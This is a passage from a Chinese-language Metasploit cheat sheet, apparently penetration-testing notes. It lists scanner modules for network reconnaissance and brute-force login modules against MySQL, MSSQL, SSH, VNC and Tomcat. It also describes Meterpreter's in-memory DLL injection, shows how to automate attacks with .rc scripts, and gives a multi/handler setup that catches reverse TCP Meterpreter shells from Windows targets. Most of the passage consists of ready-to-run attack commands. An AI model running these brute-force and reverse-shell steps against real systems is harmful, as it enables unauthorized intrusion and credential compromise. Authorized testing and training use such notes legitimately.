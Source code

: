 利用 auxiliary 这个模块来获取目标网端的信息,包括端口开放情况、主机存活情况.
```bash
use auxiliary/scanner/discovery/arp_sweep       # arp 扫描
use auxiliary/scancer/smb/smb_version           # 存活的 445 主机
use auxiliary/scanner/portscan/syn              # 端口扫描
use auxiliary/scanner/portscan/tcp              # TCP 端口扫描
use auxiliary/scanner/telnet/telnet_version     # telent 服务扫描
use auxiliary/scanner/rdp/rdp_scanner           # 远程桌面服务扫描
use auxiliary/scanner/ssh/ssh_version           # ssh 主机扫描
use auxiliary/scanner/smb/smb_version           # smb 服务扫描
use auxiliary/scanner/ip/ipidseq                # IPID 序列扫描器
use auxiliary/scanner/mssql/mssql_ping          # mssql
use auxiliary/scanner/http/webdav_scanner       # webdav
```

**爆破**
```bash
use auxiliary/scanner/mysql/mysql_login         # 爆破 mysql
use auxiliary/scanner/mssql/mssql_login         # 爆破 mssql
use auxiliary/scanner/ssh/ssh_login             # 爆破 SSH
use auxiliary/scanner/snmp/snmp_enum            # 枚举 snmp
use auxiliary/scanner/vnc/vnc_login             # 爆破 VNC
use auxiliary/scanner/http/tomcat_mgr_login     # 爆破 tomcat
```

---

## meterpreter

Meterpreter 属于 stage payload，在 Metasploit Framework 中，Meterpreter 是一种后渗透工具，它属于一种在运行过程中可通过网络进行功能扩展的动态可扩展型 Payload。这种工具是基于 “内存 DLL 注入” 理念实现的，它能够通过创建一个新进程并调用注入的 DLL 来让目标系统运行注入的 DLL 文件。

首先目标先要执行初始的溢出漏洞会话连接，可能是 bind 正向连接，或者反弹 reverse 连接。反射连接的时候加载 dll 链接文件，同时后台悄悄处理 dll 文件。其次 Meterpreter 核心代码初始化, 通过 socket 套接字建立一个 TLS 加密隧道并发送 GET 请求给 Metasploit 服务端。Metasploit 服务端收到这个 GET 请求后就配置相应客户端。最后，Meterpreter 加载扩展，所有的扩展被加载都通过 TLS 进行数据传输。

### Tips

可以将攻击代码写入 configure.rc（只要是以 .rc 结尾的文件）配置文件中，然后使用命令
```bash
msfconsole -r configure.rc
```
进行自动攻击

---

### 获取会话

**handler**
```bash
use exploit/multi/handler
set payload windows/x64/meterpreter_reverse_tcp
set lhost [lhost]
set lport [lport]
exploit -j  # 后台执行
```
